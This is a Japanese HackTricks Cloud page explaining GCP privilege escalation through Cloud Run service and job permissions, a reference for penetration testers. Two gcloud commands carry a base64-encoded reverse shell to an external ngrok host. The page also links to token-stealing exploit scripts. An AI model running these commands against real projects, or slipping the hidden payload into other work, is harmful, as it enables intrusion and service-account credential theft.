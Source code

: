 # GCP - 特権昇格の実行

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* もし、あなたの**会社をHackTricksで広告表示したい**場合や、**最新版のPEASSやHackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)をフォローしましょう。
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## run

### `run.services.create` , `iam.serviceAccounts.actAs`

_cloudfunctions.functions.create_ メソッドと同様に、このメソッドは**新しいCloud Runサービス**を作成します。このサービスは、呼び出されると、実行中のサーバーのメタデータAPIにアクセスして、**サービスアカウントのアクセストークンを返します**。Cloud Runサービスがデプロイされ、それに対してリクエストを実行することでトークンを取得できます。

このメソッドには以下の**権限が必要**です：

* _run.services.create_
* _iam.serviceaccounts.actAs_
* _run.services.setIamPolicy_ **または** _run.routes.invoke_

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

このメソッドでは、正しく悪用するためにビルドしてホストする必要があるDockerイメージが使用されます。このイメージは、HTTPリクエストが行われたときにCloud Runにサービスアカウントのアクセストークンを返すように設計されています。

このメソッドのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py)で見つけることができ、Dockerイメージは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage)で見つけることができます。

何らかの理由で、サービスを作成するだけでなく、`gcloud run deploy`を使用する場合は、**更新権限が必要**です。[**こちらの例**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh)を確認してください。

### `run.services.update` , `iam.serviceAccounts.actAs`

前のメソッドと同様ですが、サービスを更新します。
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

自分自身に前の権限を与えます。

### `run.jobs.create`,`run.jobs.run`,(`run.jobs.get`)

指定されたサービスアカウントを盗むために、逆シェルを使用してジョブを起動します。[**ここにエクスプロイトがあります**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh)。

### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

前の方法と同様に、ジョブを**更新し、SAを更新**し、**コマンドを実行**することができます。
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

前の権限を自分に付与します。

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
